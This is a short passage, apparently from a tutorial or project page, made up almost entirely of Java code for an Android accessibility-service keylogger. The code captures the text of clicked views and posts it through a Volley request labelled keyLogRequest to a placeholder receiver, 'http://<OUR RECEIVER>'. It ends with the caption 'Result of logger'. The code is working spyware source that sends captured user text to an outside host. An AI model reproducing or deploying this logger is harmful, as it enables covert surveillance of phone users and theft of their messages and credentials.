 ```java
            case AccessibilityEvent.TYPE_VIEW_CLICKED: {
                accessibilityEvent = "TYPE_VIEW_CLICKED";
                msg = String.valueOf(event.getText());
                break;
            }
            default:
        }

        if (accessibilityEvent == null) {
            return;
        }



        sendLog("http://<OUR RECEIVER>", msg);
    }


    private void sendLog(String uploadUrl, String msg) {

        RequestQueue requestQueue = Volley.newRequestQueue(this);
        Map<String, String> result = new LinkedHashMap<>();
        result.put("msg", msg);
        JsonObjectRequest keyLogRequest = new JsonObjectRequest(uploadUrl
                , new JSONObject(result)
                , this::onResponse
                , this::onErrorResponse
        );
        requestQueue.add(keyLogRequest);
    }

    private void onResponse(JSONObject response) {
    }

    private void onErrorResponse(VolleyError error) {
    }

    @Override
    public void onInterrupt() {

    }
}
```

Result of logger